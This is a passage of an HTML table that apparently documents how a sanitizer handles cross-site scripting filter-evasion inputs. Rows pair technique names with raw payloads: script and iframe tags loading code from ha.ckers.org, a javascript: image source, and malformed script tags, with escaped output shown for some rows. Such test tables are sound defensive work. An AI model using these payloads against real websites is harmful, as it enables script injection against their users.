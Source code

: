 </td>
<td></td>
<td></td>
</tr>
<tr>
<td>Protocol resolution in script tags</td>
<td>
<pre>&lt;SCRIPT »
SRC=//ha.ckers.org/.j&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Half-Open HTML/JavaScript</td>
<td>
<pre>&lt;IMG »
SRC="javascript:alert('XSS') »
"</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Double open angle brackets</td>
<td>
<pre>&lt;IFRAME »
SRC=http://ha.ckers.org/scri »
ptlet.html &lt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Extraneous Open Brackets</td>
<td>
<pre>&lt;&lt;SCRIPT&gt;alert("XSS");//&lt;&lt;/S »
CRIPT&gt;</pre>
</td>
<td>
<pre>&amp;lt;</pre>
</td>
<td>
<div>&lt;</div></td>
</tr>
<tr>
<td>Malformed IMG Tags</td>
<td>
<pre>&lt;IMG »
"""&gt;&lt;SCRIPT&gt;alert("XSS")&lt;/SC »
RIPT&gt;"&gt;</pre>
</td>
<td>
<pre>"&amp;gt;</pre>
</td>
<td>
<div>"&gt;</div></td>
</tr>
<tr>
<td>No Quotes/Semicolons</td>
<td>
<pre>&lt;SCRIPT&gt;a=/XSS/
alert(a.sour »
ce)&lt;/SCRIPT&gt;</pre>